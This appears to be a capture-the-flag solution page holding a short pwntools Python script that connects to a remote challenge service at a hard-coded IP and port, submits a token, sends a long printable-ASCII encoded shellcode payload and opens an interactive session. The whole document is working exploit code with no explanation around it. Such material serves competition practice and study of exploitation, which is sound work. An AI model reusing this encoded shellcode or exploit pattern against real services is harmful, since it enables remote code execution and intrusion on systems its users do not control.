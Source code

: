```python
from pwn import *

context(log_level='DEBUG')

p = remote('202.38.93.241', 10004)
#p=process('./chall3')

p.recvuntil(':')
p.sendline('token') # token

p.send('''PPTAYAXVI31VXXXf-c?f-@`f-@`PZTAYAXVI31VXPP[_Hc4:14:SX-b+e2-( _`5>??_P^14:WX-????-}`aC-@`_}P_Hc4:14:SX-IOF`-A`! 5>_7;P^14:WX-????-}`aC-@`_}P_Hc4:14:SX-<hh)-h`  5n???P^14:WX-????-}`aC-@`_}P_Hc4:14:SX-@{#'-ux @5O6?_P^14:WX-????-}`aC-@`_}P_Hc4:14:SX-@#6p-B 0`5v?_?P^14:WX-????-}`aC-@`_}P_Hc4:14:SX-2 u@-&@@ 5-_?wP^14:WX-????-}`aC-@`_}P_SX- ut*- ,Lv5X_?_P_Hc4:14:SX-Q !0-#@  5s}.?P^14:WX-????-}`aC-@`_}P_SX-8 `$-%`"|5?~}_P^SX-Ma`R-~c`p5-;?=P_AAAA!bt#MvAr*o$$>I`_UXyyi;||s}_r=60d|jcEH(u'&w6~7AM;wy4II+f'Gw+X#e0T|t30Q.$A>6p?'B[A<zDBH)6f0Rj#XO$''')

p.interactive()
```
